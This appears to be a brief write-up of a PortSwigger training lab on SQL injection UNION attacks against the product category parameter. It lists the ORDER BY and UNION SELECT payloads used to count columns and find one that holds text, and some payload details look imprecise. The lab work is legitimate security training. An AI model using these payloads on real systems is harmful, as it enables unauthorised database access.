

// platform portswigger
***********************************
#### target -> Lab: SQL injection UNION attack, finding a column containing text
==========================================================
- **where is vuln: product category**
- **goal  finding a column containing text**

============================================================

#### analysis
-->  find column
 - `' order by 1 --` ❌
 - `' order by 2 --` ❌
 - `' order by 3 --` ✅

--> fuzzing columns with lab string like this '7lzcTE'
    - `' UNION SELECT NULL,NULL,7lzcTE--` ❌
    - `' UNION SELECT NULL,7lzcTE,NULL--` ✅
    - `' UNION SELECT 7lzcTE,NULL,NULL-- `❌


## `steps`
1. ##### acess the lab .
2. ##### open any category.
3. ##### check how many columns.
4. ##### now exploiation
5. ##### than solve the lab. 

```bash
    - check exploit.py
```
